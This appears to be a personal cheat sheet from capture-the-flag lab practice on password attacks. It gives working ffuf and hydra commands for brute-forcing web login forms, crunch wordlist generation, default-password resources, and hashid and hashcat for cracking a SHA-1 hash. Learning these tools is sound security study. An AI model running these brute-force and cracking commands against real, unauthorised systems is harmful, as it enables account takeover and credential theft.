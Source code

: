 ````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

#ffuf 

Word list: [[Automated Discovery]]

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```

#hydra


default passwords:

- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

https://wiki.skullsecurity.org/index.php?title=Passwords

Generate passwords:

`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`user@thm$  crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### CUPP - Common User Passwords Profiler

detect hash type
`λ kali ~ → hashid 8d6e34f987851aa599257d3831a1af040886842f`


dict based attack on sha-1
`λ kali ~ → hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`
